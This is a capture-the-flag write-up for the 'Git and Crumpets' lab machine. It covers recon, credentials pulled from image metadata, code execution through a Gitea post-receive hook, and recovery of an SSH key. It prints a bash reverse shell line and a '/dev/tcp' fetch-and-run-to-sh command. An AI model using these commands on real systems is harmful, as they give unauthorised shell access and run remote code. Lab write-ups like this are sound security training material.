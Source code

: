 # Git and Crumpets

### Git and Crumpets
Nmap scan shows ports 22 and 80. But port 80 redirects me to the rick roll video, so there's nothing on the main page. However I can still enumerate directories. I try to do that, but I see that after a while my IP address gets blocked by the website. Even if I visit the page on a browser I can't do it.<br />
What I try to do next is to restart the machine, and this time run an nmap ACK scan:<br />
![image](https://github.com/user-attachments/assets/18f6a3e7-f522-43ed-8504-b5a383134596)<br />
I try to connect to it but nothing, I get blocked again. So i restart again the machine. This time i decided to run `curl` on the target IP, and here's what I get:<br />
![image](https://github.com/user-attachments/assets/761588ef-1a9f-4bb0-b3c4-4e6846dd69d7)<br />
So I added "git.git-and-crumpets.thm" to my `/etc/hosts` file and visit `http://git.git-and-crumpets.thm`:<br />
![image](https://github.com/user-attachments/assets/b8a10178-6167-4c44-9405-de2caee461cd)<br />
Since I have no credentials, I register a new account, and I find two repositories:<br />
![image](https://github.com/user-attachments/assets/fac69041-0e98-4cce-8923-f8b443b247eb)<br />
Looking at the first repository, if I click on `commits`, I can see 5 commits:<br />
![image](https://github.com/user-attachments/assets/87cd0dc4-840e-4bdd-8682-826b193d264e)<br />
But here's what happens if I click on the three dots in the image above:<br />
![image](https://github.com/user-attachments/assets/ede0ba91-6982-49e8-afc1-fa45c00d5f83)<br />
So I downloaded his avatar using `wget`, and used `exiftool` to read metadata from the image:<br />
![image](https://github.com/user-attachments/assets/3dfb369b-04ee-4509-af85-f94965ff8bdf)<br />
And so I was able to log into scone's account with `scones:Password`.  Now, to gain RCE, I'm going to use something called "git hooks":<br />
![image](https://github.com/user-attachments/assets/51a156ef-f37b-41c1-b998-30b0fa01571d)<br />
A git hook is basically a code that executes everytime an action on the repository gets executed. I'm going to create a hook "post-receive", meaning that it will right after a commit.<br />
The git hook should contain the following code: <br />

    #!/bin/bash 
    bash -i >& /dev/tcp/192.168.0.42/8080 0>&1 # replace ip address with ip address of the attackers computer

First, listen for the netcat connection, then: 

    touch README.md
    git init
    git add README.md
    git commit -m "first commit"
    git remote add origin http://git.git-and-crumpets.thm/scones/test.git
    git push -u origin master
This commands create a new git repository, then it connects the local repository with the remote repository on the target. It the pushes the commit to the remote repository.<br />
So the reverse shell bash script executes. This gets me the user flag. Now for privesc, I decide to run linpeas.sh, but the target machine doesn't have essential tools like netcat or wget, so the only way for me to run linpeas is:

    sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
    cat < /dev/tcp/10.10.10.10/80 | sh #Victim
After enumerating the system for a while I finally found something inside `/var/lib/gitea/data/gitea-repositories/root/backup.git`. There's a repository that contains two branches: master and dotfiles. If I look at the commits of the dotfiles branch, here's what I get:<br />
![image](https://github.com/user-attachments/assets/3809e888-cda5-43eb-bc3e-bf0eb6f6c4b3)<br />
So if I run `git show 0b23539`, I get a private ssh key!:<br />
![image](https://github.com/user-attachments/assets/ad817c8d-05a1-41db-b683-ecd268da2c63)<br />
But this key is protected by a passphrase:<br />
![image](https://github.com/user-attachments/assets/2e38b635-cb5f-43c2-8cbf-728a47ea0cce)<br />
And I got lucky!, since the ssh key is in a file called `Sup3rS3cur3`, I tried to use that as a passphrase and it worked!<br />
![image](https://github.com/user-attachments/assets/4fe00ce9-e496-488b-9666-e746d44bac30)<br />







